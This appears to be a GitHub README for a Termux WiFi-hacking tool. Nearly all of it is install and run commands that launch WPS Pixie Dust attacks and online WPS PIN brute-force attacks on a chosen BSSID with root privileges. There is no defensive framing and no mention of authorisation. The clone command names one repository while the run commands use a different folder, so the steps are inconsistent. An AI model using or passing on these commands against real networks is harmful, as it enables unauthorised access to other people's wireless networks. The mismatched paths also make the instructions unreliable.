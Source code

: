 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/5cPyw37/IMG-20240219-WA0007.jpg"></p>

### Installation :

```bash
 apt update && apt upgrade

 pkg install -y root-repo

 pkg install -y git tsu python wpa-supplicant pixiewps iw

 git clone https://github.com/Remixtj012/wps.wifi

 sudo python Naiyem_WiFi_Hack/Muhammad_Naiyem.py -i wlan0 -K
```

#### Example : `sudo python Naiyem_WiFi_Hack/Muhammad_Naiyem.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python Muhammad_Naiyem.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python Muhammad_Naiyem.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python Muhammad_Naiyem.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
